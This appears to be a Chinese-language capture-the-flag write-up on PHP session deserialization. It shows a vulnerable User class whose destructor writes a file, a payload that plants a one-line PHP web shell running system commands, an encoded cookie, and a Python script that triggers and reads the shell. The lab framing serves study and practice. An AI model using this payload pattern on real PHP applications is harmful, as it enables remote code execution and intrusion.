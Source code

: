 访问inc.php

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('session.serialize_handler', 'php');
date_default_timezone_set("Asia/Shanghai");
session_start();
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
```

看到session.serialize_handler为php，这儿就可以用到php-session反序列化

显然，`cookie`中的`limit`进行base64解码之后传入session中，之后调用`inc`中的`User`类，并且其中这个`User`类中存在文件写入函数(file_put_contents)，所以写入一句话即可，payload如下

```php
<?php
class User{
    public $username = '1.php';
    public $password = '<?php system("catflag.php");?>';
    public $status='dotast';

}
$a=new User();
echo base64_encode('|'.serialize($a));
```

```
fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czozMDoiPD9waHAgc3lzdGVtKCJjYXRmbGFnLnBocCIpOz8
```

输出值存进cookie中，带着cookie去访问`index.php`，接着访问`inc/inc.php`，然后就会生成文件`log-1.php`，直接写一个脚本

```python
import requests
url = "http://a768fa0f-b2b6-47dd-a787-5b1f3063ca7e.challenge.ctf.show/"
cookies = {"PHPSESSID": "4lppepr42tnnv98rca6ei55dun", "limit": "fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czoxMDoiZG90YXN0LnBocCI7czo4OiJwYXNzd29yZCI7czozMToiPD9waHAgc3lzdGVtKCJ0YWMgZmxhZy5waHAiKTs/PiI7czo2OiJzdGF0dXMiO3M6NjoiZG90YXN0Ijt9"}
res1 = requests.get(url + "index.php", cookies=cookies)

res2 = requests.get(url + "inc/inc.php", cookies=cookies)

res3 = requests.get(url + "log-1.php", cookies=cookies)
print(res3.text)
```
